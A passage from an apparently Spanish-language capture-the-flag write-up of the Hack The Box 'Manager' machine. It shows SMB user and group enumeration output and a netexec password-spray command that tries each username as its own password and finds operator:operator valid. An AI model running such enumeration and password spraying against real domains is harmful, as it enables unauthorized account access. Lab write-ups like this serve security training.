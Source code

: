 ```jsx
SMB         10.10.11.236    445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.236    445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.10.11.236    445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.236    445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.10.11.236    445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.10.11.236    445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.10.11.236    445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.10.11.236    445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.10.11.236    445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.10.11.236    445    DC01             1119: MANAGER\Operator (SidTypeUser)

```

Se realiza un ataque conocido como "password spray". Utilizando el listado disponible, se ejecuta el ataque probando cada usuario y contraseña. Como resultado, se descubre que el usuario "operator" tiene la contraseña "operator".

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager]
└─# netexec smb 10.10.11.236 -u UserAD -p UserAD --no-brute --continue-on-success
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 

```
